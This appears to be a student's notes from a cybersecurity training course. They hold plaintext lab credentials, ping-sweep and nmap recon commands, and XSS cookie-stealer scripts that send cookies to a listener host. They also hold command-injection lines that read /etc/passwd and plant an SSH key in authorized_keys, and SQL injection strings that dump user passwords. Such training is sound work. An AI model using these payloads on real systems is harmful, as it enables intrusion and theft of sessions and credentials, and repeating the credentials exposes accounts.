 ### LOGIN INFO ###
Please log into Lins-ops
find IPs on vta.cybbh.space

control shift V to preview

class info: 10.50.46.45/classinfo.html
Keep this output in your notes, password for pivot/-jump box and CTFd, 10.50 is your Jump box for challenges

OLD CTFd: 10.50.20.250:8000

New CTFd: 10.50.20.30:8000


ssh into my workstation -> ssh -X student@10.50.39.223
password: password 

JUMP_BOX!!!
username: MAKI-502-B
password: d07PevVUniUxBNR

Record deleted successfully
Stack Number  |	Username	| Password	        |    lin.internet
-------------------------------------------------------------------
16	          |  MAKI-502-B	|  d07PevVUniUxBNR  |	    10.50.23.132

to ssh into the jumpbox -> ssh student@10.50.23.132 with the password as d07PevVUniUxBNR

linux-ops ip address: 10.50.24.96
    username: student
    password: password
jump-box: 10.50.23.132
    username: student
    password: d07PevVUniUxBNR

winops: 10.50.27.161


VTA_creds: https://vta.cybbh.space/horizon/project/
Username: mahlon.k.kirwa80
password: regular linux password
Domain: ipa

Jump box:
cctc.cybb

Link slides and what not - https://sec.cybbh.io/public/security/latest/index.html

Instances - https://vta.cybbh.space/horizon/project/instances/

## SECURITY MODULES ##


LESSONS:
1. Penetration testing
2. Reconnaissance
3. Exploit Research
4. Web Exploitation - Day 1
5. Web Exploitation - Day 2
6. Reverse Engineering
7. Exploit Development Testing
8. Post Exploitation
9. Windows Exploitation
10. Linux Exploitation

### PENETRATION TESTING ###

Phases:
1. Phase 1 - Mission definition
2. Phase 2 - Recon
3. Phase 3 - Footprinting
4. Phase 4 - Exploitation and Initial Access
5. Phase 5 - Post Exploitation
6. Phase 6 - Document Mission

for i in {1..254} ;do (ping -c 1 192.168.1.$i | grep "bytes from" &) ;done # Does the first 1000 scans. For the ping sweep... 

Always run the regular scans like above before you try banner grabbing (a technique used to gain information about a computer on a network and the services running on its open ports.)

storage nmap scripts -> ls /usr/share/nmap/scripts/
Popular scripts: ftp-anon.nse, http-enum.nse, smb-os-discovery.nse

How to get information about a certain script -> proxychains nmap [target_ip_address]-Pn -p [target_port] --script-help [target_script]
                                                             nmap ip 192.168.28.97-100, 100,105,111,120 -pm

John the ripper -> https://www.freecodecamp.org/news/crack-passwords-using-john-the-ripper-pentesting-tutorial/

## Web Exploits CSS ##

proxychains nmap 10.50.45.162 -Pn --script http-enum -p 80

nc -kvnl 8000

n- translates dns

 <script>document.location="http://10.50.20.97/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


ping 8.8.8.8 ;cat /etc/passwd -> Lets you run and see if 

;cat ~/.ssh/id_rsa.pub

;mkdir /var/www/.ssh

;whoami

;echo "ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQC+ShHz+32iRy5PXvEQSEnn3yOK9azmn6tK+Ld8rpJkGg1Oyuq8hpq7YCmbS246hKLGytcqS9QKaC5xYojc/XjkdLzyAh8B1Ji2EPBMkVf2kpkXpS7uoYM0EvMm5j7Q2SakFdeDdLKgAUaY73JBkZmwSxi5GsJz6ZhE/x+92pFNDzcyXs4gyri+ME2ctmxVeSViOBtRONhjSrdTHePKekSPE4eKO4fEKrVFC8/QT7liTjNuCScNnw72TBys+4ZyrcSlj3yyEgs5Rrw3TpgkS+VS/tSpFf2lljuCmU0f/IXLW73q5/JdeiMEQqSFuV2SD2D9P+Eq92ES0HugQUz30yGR" >> /var/www/.ssh/authorized_keys

ssh www-data@10.50.45.162

malicious file upload.... 


10.50.45.62




http://10.100.28.40/Contract_bids.html
http://10.100.28.40/net_test/industry_check.php
http://10.100.28.40/


 <script>document.location="http://10.50.49.22:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
http://10.50.20 ------ needs to be your ip address...


<script>document.location="http://10.50.39.223:9696/Cookie_Stealer1.php?username=" + document.cookie;</script>
192.168.65.20

## SQL ##

MariaDB > select carid, name, cost from car;
MariaDB > select carid, name, cost from session.car where carid=4; 
MariaDB > select database(); # shows you where you are with your current database. 
MariaDB > select table_schema, table_name, column_name from information_schema.columns;

table_schema: Refers to the name of the schema (often used interchangeably with "database" in some DBMS) to which the table belongs.
The information_schema.columns table is a meta-table that contains information about all columns in all tables in the database system.

MariaDB > select table_name from information_schema.columns where table_schema=session;
MariaDB > select @@version;
MariaDB > select load_file("/etc/passwd);
MariaDB > select carid, name, cost from session.car union select name, pass, id from session.user;

SELECT * FROM movies;

SELECT * FROM movies where year<2000 or year>2010; # Finding movies not released in the years between 2000 and 2010.
SELECT * FROM movies where id>=1 and id<=5; # Finding the first 5 pixar movies. 
SELECT * FROM movies WHERE Title LIKE '%toy story%'; # Find all the Toy Story movies
SELECT * FROM movies WHERE Director='John Lasseter'; # Find all movies directed by John Lasseter
SELECT * FROM movies WHERE Title like 'WALL-%'; # Find all the WALL-* movies
SELECT DISTINCT Director FROM movies ORDER BY Director ASC; # List all directors of Pixar movies (alphabetically), without duplicates 
SELECT * FROM movies ORDER BY year DESC limit 4; # List the last four Pixar movies released (ordered from most recent to least) 
SELECT * FROM movies ORDER BY title ASC limit 5; # List the first five Pixar movies sorted alphabetically


WHERE Price BETWEEN 10 AND 20;

USE session;
SELECT id FROM user WHERE name='tom' OR 1=1;

steps sql injection
1. in both the password and username field, enter: tom' or 1='1
2. Inspect html and change form from post to get 
3. login and see the information

You will get all selects except for one challenge. 

step 1 -> http://10.50.46.45/uniondemo.php?Selection=2 or% 1=1 -> Keep increasing the value on the selection until an output is derived
step 2 -> http://10.50.46.45/uniondemo.php?Selection=2 union select 1,2,3 union select, find out if there values are ordered

We now know they're not inorder and that 2 is vulnerable let's look at the table schema 
step 3 -> http://10.50.46.45/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name FROM information_schema.columns

union demo - http://10.50.46.45/Union.html

ford' or 1=1; #   ---> Try this gives this select name, type, cost, color, year from car where name='ford\' or 1=1; #' 
select name, type, cost, color, year from car where name='audi\' or 1=\'1'

0. ford' or 1='1; this didn't work why???
1. ford' or 1=1; # after this we try audi next
2. Audi' or 1=1; #' ----> gives this select name, type, cost, color, year from car where name='Audi' or 1=1; # ' -----> SUCCESS!!!
3. Now we need union select 
4. Audi' union select 1,2,3,4; # -----> doesn't work.. 
5. Audi' union select 1,2,3,4,5; # ----> works.. looks like I added 
6. Audi' UNION SELECT 1,2,table_schema,table_name,column_name FROM information_schema.columns; #      ----> GOLDEN STATEMENT ALLOWS US TO KNOW WHAT TO WRITE FOR THAT SITUATION. Helps us to write a valid query for content
7. Audi' Union select id,null,name,pass,null from session.user; #
query -----> select name, type, cost, color, year from car where name='Audi' Union select id,2,name,pass,null from session.user; #'


## REVERSE ENGINEERING ##
